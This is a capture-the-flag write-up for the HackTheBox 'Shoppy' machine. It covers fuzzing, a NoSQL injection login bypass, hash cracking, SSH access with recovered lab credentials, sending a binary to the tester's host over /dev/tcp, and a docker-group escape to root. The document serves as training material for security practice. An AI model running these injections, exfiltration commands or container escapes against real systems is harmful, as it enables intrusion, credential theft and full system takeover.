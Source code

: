 ```yaml
---
layout: single
title: Shoppy hackthebox writeup
excerpt: "Easy linux machine in which inject NoSQL code, crack a password, reverse engineer a binary and escalate through docker"
date: 2022-11-06
classes: wide
header:
  teaser: /assets/images/shoppy/shoppy_icon.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - NoSQL
  - fuzzing
  - reverse engineering
  - docker
---
```


![](/assets/images/shoppy/shoppy.png)

## User flag

First thing first, port scanning

```shell
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
9093/tcp open  copycat syn-ack ttl 63
```

Having port 9093 is quite odd, if you check it with your browser you will find some information about a mattermost server but nothing too crucial. On the other hand, if we fuzz the main webpage (port 80) we find

```shell
ffuf -w /home/dasor/wordlist/directory-list-2.3-big.txt -u http://shoppy.htb/FUZZ -v -of md -o ffuf_common -t 200
```

| FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | ResultFile |
  | :- | :-- | :--------------- | :---- | :------- | :---------- | :------------- | :------------ | :--------- | :----------- |
  | images | http://shoppy.htb/images | /images/ | 2 | 301 | 179 | 7 | 11 | text/html; charset=UTF-8 |  |
  | login | http://shoppy.htb/login |  | 39 | 200 | 1074 | 152 | 26 | text/html; charset=UTF-8 |  |
  | admin | http://shoppy.htb/admin | /login | 245 | 302 | 28 | 4 | 1 | text/plain; charset=utf-8 |  |
  | assets | http://shoppy.htb/assets | /assets/ | 277 | 301 | 179 | 7 | 11 | text/html; charset=UTF-8 |  |
  | css | http://shoppy.htb/css | /css/ | 540 | 301 | 173 | 7 | 11 | text/html; charset=UTF-8 |  |
  | Login | http://shoppy.htb/Login |  | 811 | 200 | 1074 | 152 | 26 | text/html; charset=UTF-8 |  |
  | js | http://shoppy.htb/js | /js/ | 939 | 301 | 171 | 7 | 11 | text/html; charset=UTF-8 |  |
  | fonts | http://shoppy.htb/fonts | /fonts/ | 2744 | 301 | 177 | 7 | 11 | text/html; charset=UTF-8 |  |
  | Admin | http://shoppy.htb/Admin | /login | 6193 | 302 | 28 | 4 | 1 | text/plain; charset=utf-8 |  |
  | exports | http://shoppy.htb/exports | /exports/ | 34903 | 301 | 181 | 7 | 11 | text/html; charset=UTF-8 |  |
  |  | http://shoppy.htb/ |  | 39970 | 200 | 2178 | 853 | 57 | text/html; charset=UTF-8 |  |
  | LogIn | http://shoppy.htb/LogIn |  | 94229 | 200 | 1074 | 152 | 26 | text/html; charset=UTF-8 |  |
  | LOGIN | http://shoppy.htb/LOGIN |  | 178341 | 200 | 1074 | 152 | 26 | text/html; charset=UTF-8 |  |


The only one that works is the login page. I started trying LDAP injection and SQL injection but it didn't work out. However, I tried the `admin'||'1==1` NoSQL injection and it worked. Now in the admin panel, there is a "Search for users" button that is also vulnerable to NoSQL injection. So if we inject `'||'1==1` we get all users (only admin and josh) and their hashed md5 password.

So obviously let's crack the passwords

```shell
[dasor@archlinux ~/htb/shoppy]$ hashcat -m 1000 hashjosh ~/wordlist/rockyou.txt --show
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

Unfortunately, the admin password couldn't be cracked. To be honest, I got stuck at this point so I started from the beginning again, Then I remembered I didn't fuzz for VHOST so that's what I did.

```shell
ffuf -w ~/wordlist/subdomains-UPDATED.txt -u http://shoppy.htb -H 'Host: FUZZ.shoppy.htb' -fs 169 -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb
 :: Wordlist         : FUZZ: /home/dasor/wordlist/subdomains-UPDATED.txt
 :: Header           : Host: FUZZ.shoppy.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 169
________________________________________________

mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1]
```

A mattermost VHOST appears, it makes a lot of sense. As usual, let's add the subdomain to our /etc/hosts.

```shell
10.10.11.180    shoppy.htb mattermost.shoppy.htb
```

In this new VHOST, we find a login page, the credentials we got earlier are valid. This mattermost page is similar to the one faced in the [paper machine](./2021-12-24-Paper-Writeup.md). In this chat, we find credentials for a user called jaeger. Also, there is information about a password manager made in c++. So let's remember that a login via ssh

```shell
[dasor@archlinux ~/htb/shoppy]$ ssh jaeger@shoppy.htb
jaeger@shoppy.htb's password:
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64
jaeger@shoppy:/home/deploy$
```

user flag done!

## Root flag

Now if we start doing the usual privesc checks we find the password manager mentioned before

```shell
jaeger@shoppy:/home/deploy$ sudo -l
[sudo] password for jaeger:
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

We can read the source code but we can look at the binary so I copied it to my machine
```shell
jaeger@shoppy:/home/deploy$ cat password-manager > /dev/tcp/10.10.14.32/7777
[dasor@archlinux ~/htb/shoppy]$ nc -lvp 7777 > bin
Connection from 10.10.11.180:56928
```

Next, I opened the binary with ghira to decompile it (maybe a little bit overkill). with this, I found the master password that the binary asks for.

![](/assets/images/shoppy/ghidra.png)

<p align = "center">
screenshot of ghidra where the master password can be seen in the decompile window
</p>

Now let's use the password in the actual victim's machine

```shell
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

With these credentials, we can escalate to user deploy and then proceed with another round of searching for privesc vectors.

```shell
jaeger@shoppy:/home/deploy$ su deploy
Password:
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
deploy@shoppy:~$ groups
deploy docker
```

Now the way to finish is by exploiting docker since we are part of the docker group. This method is straightforward although I haven't posted any CTF with this. Just look for an image and execute it as a privileged user like this

```shell
deploy@shoppy:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   3 months ago   5.53MB
deploy@shoppy:~$ docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host alpine chroot /host
root@shoppy:/# cd
root@shoppy:~# ls
root.txt
```

And we are now root in the system, thanks for reading!

